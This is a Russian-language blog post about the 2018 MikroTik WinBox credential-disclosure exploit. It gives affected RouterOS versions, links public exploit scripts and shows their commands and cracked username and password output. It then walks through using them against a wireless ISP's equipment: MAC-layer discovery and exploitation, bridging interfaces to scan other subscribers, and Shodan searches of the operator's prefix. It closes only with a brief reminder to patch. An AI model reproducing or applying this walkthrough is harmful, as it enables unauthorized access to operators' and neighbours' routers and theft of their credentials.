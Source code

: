 ```yaml
---
title: "Mikrotik WinBoxExploit изучаем оператора радио-доступа."
date: 2018-12-05 09:52:51 +0000
categories:
  - Mikrotik
tags:
  - Mikrotik
  - Winbox
  - Exploit
sidebar:
  - title: "Mikrotik WinBoxExploit"
    image: http://placehold.it/350x250
    image_alt: "image"
    text: "Some text here."
  - title: "Another Title"
    text: "More text here."
---
```

 
Первая новость о взломе на сайте Mikrotik  появилась 25 марта 2018 г. 
https://blog.mikrotik.com/security/winbox-vulnerability.html (update 9th Oct, 2018 New Exploit )

В ней говорится что уязвимость  обнаружена в версиях:

*Affected all bugfix releases from 6.30.1 to 6.40.7, fixed in 6.40.8 on 2018-Apr-23
*Affected all current releases from 6.29 to 6.42, fixed in 6.42.1 on 2018-Apr-23
*Affected all RC releases from 6.29rc1 to 6.43rc3, fixed in 6.43rc4 on on 2018-Apr-23

На странице [https://github.com/BigNerd95/WinboxExploit](https://github.com/BigNerd95/WinboxExploit), выложен python скрипт взлома пароля к роутерам mikrotik.

Более подробно о методике выявления уязвимости рассказано на странице [https://n0p.me/winbox-bug-dissection/](https://n0p.me/winbox-bug-dissection/), ссылка есть на github у того же [BigNerd95](https://github.com/BigNerd95/WinboxExploit).

  Вероятно, можно построить свою ботнет сеть, с помощью  такой уязвимости и уже кто-то это сделал:  
  * На взломанных роутерах появились надписи HACKED FTP server, HACKED-ROUTER-HELP-SOS-WAS-MFWORM-INFECTED или HACKED-ROUTER-HELP-SOS-HAD-DEFAULT-PASSWORD ([см более подробно на сайте хакер](https://xakep.ru/2018/03/29/hajime-hunts-mikrotik/)).
  * Также есть герой с [https://habr.com/users/LMonoceros/](https://habr.com/users/LMonoceros/ )  который написал скрипт , который заблокировал эту уязвимость     и оставил доступ только из локальной сети [Для чего хакерам Микротик и как я спрятал 100 тыс. RouterOS от ботнета](https://habr.com/post/424433/) 

Для того что бы применить скрипт, нет ничего сложного: 
```bash
# python WinboxExploit.py  _ip_address_
```
результатом будет: 
{% highlight python %}
5.14.128.18
User: root
Pass:
User: admin
Pass:
User: admin
Pass: ddsER
User: create
Pass: WBCWGwewe
{% endhighlight %}

### Немножко усложним задачу:
-<s>Взломаем</s> Изучим оператора, который предоставляет вам радиодоступ, когда мы не знаем _IP address_ оборудования или если он не настроен . У нас есть только прямое подключение к клиентскому оборудованию, которое по радио подлючено к точке доступа оператора.

![]({{ site.baseurl }}/uploads/800-IMG_20160430_143159.jpg "пример подключения")

Данный exploit позволяет просканировать L2 сегмент сети и обнаружить mac адреса Mikrotik.
```bash
$ python MACServerDiscover.py
Looking for Mikrotik devices (MAC servers)
    aa:bb:cc:dd:ee:ff 
    aa:bb:cc:dd:ee:aa
```
После чего запускаем уже следующий скрипт.
```bash
$ python MACServerExploit.py aa:bb:cc:dd:ee:ff
User: admin
Pass: Th3P4ssWord
```

Дальше можно применить свои знания и умения по подключению через winbox, ssh,  telnet, к оборудониваю и узнать ssid security. Что даст нам вожможность заменить оконечное оборудование самостоятельно, к примеру при покупке более мощной абонентской точкой доступа.

Если оператор  не позаботился о безопасности, и не запретил _forwarding_ между абонентскими точками доступа, можно настроить bridge между ether1 и wlan1 и просканировать по mac адресам соседей/сектора.  
```bash
/interface bridge
add name=bridge1
/interface bridge port
add bridge=bridge1 interface=ether1
add bridge=bridge1 interface=wlan1
```
### Усложним задачу еще немножко:

Используя сервис [https://bgp.he.net](https://bgp.he.net), узнаем свой ip_address и prefixv4 своего оператора, проверим его на сервисе [https://shodan.io](https://shodan.io).
Введя  в строке поиска (_доступно после регистрации_)
```bash
mikrotik net:"5.140.28.0/19"
```
и получим:
![]({{ site.baseurl }}/uploads/shodan.png "результаты поиска")



### Sysadmin не забывай обновлять routeros , настривать правила доступа к оборудованию.

